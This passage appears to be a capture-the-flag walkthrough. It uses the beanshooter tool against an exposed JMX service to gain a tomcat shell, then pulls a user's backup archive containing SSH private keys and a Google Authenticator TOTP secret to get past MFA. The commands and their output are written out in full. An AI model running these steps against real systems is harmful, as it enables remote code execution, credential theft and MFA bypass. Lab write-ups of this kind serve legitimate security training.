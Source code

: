 According to the repository for Beanshooter tool , the recommended method for achieving remote code execution (RCE) is as follows:

[Command execution via the standard action is blind and you do not receive the output of your command. Moreover, by default your command is passed to Runtime.exec(String str), which does not support special shell features. If you want to use shell features, use the --exec-array option and specify your command like this: 'sh -c echo "my cool command" > /tmp/test.txt'. With --exec-array, beanshooter splits the specified command in three parts and passes them to Runtime.exec(String[] arr)](https://github.com/qtc-de/beanshooter#standard)

```sh
$ java -jar  beanshooter-4.1.0-jar-with-dependencies.jar  standard  10.10.124.180 2222 tonka
[+] Creating a TemplateImpl payload object to abuse StandardMBean
[+]
[+] 	Deplyoing MBean: StandardMBean
[+] 	MBean with object name de.qtc.beanshooter:standard=2052703016539 was successfully deployed.
[+]
[+] 	Caught NullPointerException while invoking the newTransformer action.
[+] 	This is expected bahavior and the attack most likely worked :)
[+]
[+] 	Removing MBean with ObjectName de.qtc.beanshooter:standard=2052703016539 from the MBeanServer.
[+] 	MBean was successfully removed.

$ java -jar  beanshooter-4.1.0-jar-with-dependencies.jar tonka  shell 10.10.124.180 2222    
[tomcat@10.10.124.180 /]$ whoami
tomcat
```
here we go ! , we got our shell , also i found a `backup.tar.gz` in `/home/useradmin/backups`

```sh
[tomcat@10.10.124.180 /home]$ cd useradmin
[tomcat@10.10.124.180 /home/useradmin]$ ls
backups
[tomcat@10.10.124.180 /home/useradmin]$ cd backups
[tomcat@10.10.124.180 /home/useradmin/backups]$ ls
backup.tar.gz
```
we transfert it to our host and we decompress it .

```sh
$ tar -xzvf backup.tar.gz
./
./.bash_logout
./.profile
./.ssh/
./.ssh/id_ed25519
./.ssh/authorized_keys
./.ssh/id_ed25519.pub
./.bashrc
./.google_authenticator
./.cache/
./.cache/motd.legal-displayed
./.bash_history
```
In the backup, there is `useradmin`'s ssh keys, We use it to make ssh connection , but there is a MFA verification code.
```sh
$ ssh -i id_ed25519 useradmin@10.10.124.180
(useradmin@10.10.124.180) Verification code:
```
i tried one of the `TOTP`
```sh
$ cat .google_authenticator                       
CLSSSMHYGLENX5HAIFBQ6L35UM
" RATE_LIMIT 3 30 1718988529
" WINDOW_SIZE 3
```
